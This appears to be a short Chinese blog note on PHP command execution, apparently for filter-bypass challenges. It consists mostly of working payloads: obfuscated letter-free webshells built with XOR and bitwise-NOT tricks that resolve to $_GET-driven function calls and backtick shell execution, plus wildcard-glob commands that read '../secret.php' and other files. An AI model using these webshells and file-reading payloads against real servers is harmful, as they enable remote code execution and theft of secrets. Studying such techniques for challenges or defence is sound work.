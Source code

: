 ```yaml
---
title: php-命令执行
passwd: 345678
abbrlink: 5109
date: 2018-07-18 15:58:22
tags: web安全
---
```


1. webshell

```shell
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
=> 
$_GET[_]($_GET[__]);
=>
<?=`{${~"����"}[_]}`;
// echo -ne '<?=`{${~"\xa0\xb8\xba\xab"}[_]}`;'
```

2. 写文件&读文件

php的标签<?php存在字母肯定不行，尝试<?发现不解析，没有开启段标签。
查资料后发现<?=可以作为php标签。<?=的含义为<?php echo，是PHP 5.4.0以后的新特性
**不管是否设置 short_open_tag php.ini 选项，<?= 将总是可用。**

```shell
<?=$_=`/???/??? ../??????.???>@#$`;
=> 
/bin/cat ../secret.php>@#$
=> 
cat ../secret.php>@#$
=>
<?=`/???/??? ../??????.??? > ===`
=>
<?=`/???/??? ../*`;
```

